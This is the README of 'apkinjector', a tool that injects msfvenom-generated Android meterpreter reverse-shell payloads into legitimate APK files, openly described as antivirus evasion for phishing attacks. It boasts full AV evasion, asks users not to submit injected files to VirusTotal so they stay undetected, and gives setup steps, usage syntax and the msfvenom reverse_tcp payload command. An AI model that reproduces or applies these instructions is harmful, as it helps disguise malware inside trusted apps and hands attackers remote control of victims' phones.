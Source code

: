 # apkinjector
Android APK Antivirus evasion for msfvenom generated payloads to inject into another APK file for phishing attacks.
<br><br>
<b> -- Please do not upload "injected" files to VirusTotal.com -- </b><br>
<br>
<br>
<b>Success Rate:</b><br>
-100% AV Evasion to date (0/35 on nodistribute, confirmed on AVG and Kaspersky mobile)<br>
-~70% automatic injection<br>
-May require user input, or manually adding the invoke command. The output will explain what is needed.<br>
-If APKTool fails to decompile, or compile, then the injection will fail. On major apps like Facebook, Starbucks, etc you may find this to happen.<br>
<br>
<br>
<b>Setup:</b><br>
chmod +x apkinjector<br>
mv apkinjector /usr/local/bin/.<br>
<br>
<b>On first run:</b><br>
-Downloads and places apktool.jar in the user's /usr/local/bin directory<br>
-Generates debug keystore for signing. Places it in ~/.android/<br>
<b>NOTE:</b> If wanting to customize each signature, then remove the keystore before running the script.<br>
<br>
<b>Usage:</b><br>
apkinjector \<payload>.apk \<original>.apk<br>
<br>
<b>Input:</b><br>
This script takes a msfgenerated payload as input along with an .apk you want to inject into.<br>
To generate the payload: msfvenom -p android/meterpreter/reverse_tcp LHOST=<IP> LPORT<PORT> -o \<payload>.apk<br>
<br>
<b>Output:</b><br>
injected_\<original>.apk<br>
<br>
<b>Debugging</b><br>
Comment out the removal of the /tmp/payload and /tmp/original directories to see the file structure that was compiled.<br>

